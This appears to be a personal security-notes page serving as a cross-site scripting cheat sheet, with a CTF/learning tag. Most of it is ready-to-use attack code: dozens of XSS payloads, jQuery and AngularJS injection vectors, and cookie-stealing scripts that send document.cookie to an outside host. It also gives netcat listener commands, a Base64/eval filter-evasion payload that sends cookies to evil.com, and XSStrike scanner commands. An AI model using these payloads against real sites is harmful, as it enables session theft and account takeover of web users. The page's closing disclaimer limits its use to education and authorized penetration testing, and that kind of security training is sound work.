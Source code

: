 ```yaml
---
title: CROSS SITE SCRIPTING (XSS)
date: 2023-05-05 01:35:40 +/-TTTT
categories: [learning, ctf]
tags: [learning]     # TAG names should always be lowercase
---
```

XSS enables attackers to injection client-side scripts into web applications.

# Payloads
We can insert them into URL params, POST params or HTTP headers.
```HTML
<script>alert(1)</script>
"><script>alert(1)</script>
<script>alert(1)</script>
"><script>alert(1)</script>
'></script><script>alert(1)</script>
';alert(1);'

" src=1 onerror=alert(1)>
<><img src=1 onerror=alert(1)>
"><img src=1 onerror=alert(1)>
"></span><img src=1 onerror=alert(1)>
"><svg onload=alert(1)>

javascript:alert(1)
\"-alert(1)//

%3Cscript%3Ealert%281%29%3C%2Fscript%3E

<a onmouseover=alert(1)>click</a>
" onmouseleave='alert(1)'">

<img src="jav ascript:alert(1)">
<img src="jav&#x09;ascript:alert(1)">
<img src="jav&#x0A;ascript:alert(1)">

</textarea><script>alert(1)</script>

<script>fetch('/profile?new_password=password');</script>

/?q=&subparam=--><script>alert(1)</script>
/index.php#value='><script>alert(1)</script>
```
# JQuery
```html
https://vulnerable.com/#<img src=1 onerror=alert(1)>
<iframe src="https://vulnerable.com/#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```
# AngularJS
If you find "<html ng-app>" or "<div ng-app>" in the HTML source code, you may be able to abuse it by XSS.
```js
https://vulnerable.com/?search={{$on.constructor('alert(1)')()}}
```
# Cookie Stealing
Create the following payload for stealing Cookie and inject into target web page.
```html
<!-- GET request -->
<script>fetch("http://10.0.0.1/?"+btoa(document.cookie));</script>

<!-- POST request -->
<script>
    fetch("http://10.0.0.1/", {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
</script>
```
Start web server or listener in local machine.
```
sudo python3 -m http.server 80
# or
sudo nc -lvp 80
```
# Filter Evasion
Website may sanitize inputs to prevent from malicious code. However, we might be able to circumvent by modifying our code.
For example, change JavaScript code to Base64 string.
```js
fetch("http://evil.com/"+document.cookie);
# Base64: ZmV0Y2goImh0dHA6Ly9ldmlsLmNvbS8iICsgZG9jdW1lbnQuY29va2llKTs=
```
Insert the base64 string into the “eval” function as below.
```
# '(' => '\x28'
# ')' => '\x29'
<img src="x" onerror=eval.call`${"eval\x28atob`ZmV...2EoZCkpKQo=`\x29"}`
```
# Automation
* XSStrike is a XSS scanner : https://github.com/s0md3v/XSStrike
```js
# GET request
python xsstrike.py -u http://vulnerable.com/?param=test

# POST reqeust
python xsstrike.py -u http://vulnerable.com/post --data "username=test&email=test&comment=test"

# data as JSON
python xsstrike.py -u http://vulnerable.com/comment --data '{"comment": "test"}' --json
```

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```